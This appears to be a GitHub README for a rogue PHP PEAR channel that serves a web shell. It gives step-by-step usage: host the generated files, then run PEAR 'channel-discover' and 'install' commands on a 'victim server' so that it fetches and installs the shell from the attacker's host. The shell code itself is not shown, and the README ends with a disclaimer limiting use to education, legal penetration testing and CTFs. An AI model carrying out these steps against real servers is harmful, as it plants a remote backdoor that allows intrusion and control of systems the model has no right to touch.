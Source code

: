 # Pear-Rogue-Channel
## About
This is a custom, self-hosted PHP Pear channel that serves PHP web shell.
## How to use
1. Generate necessary files
```bash
./main.php
```
2. Move all files to the document root (like `/var/www/html/`) of your web server.
3. Try to execute the following pear commands on the victim server:
```bash
pear channel-discover SERVER_HOST_NAME
pear install CHANNEL_ALIAS/PACKAGE_NAME
```
4. Viola!
## Advisory
All files and scripts should be used for educational purposes, legal penetration testing, and/or CTF competitions. Please don't use them for illegal activities. :cat: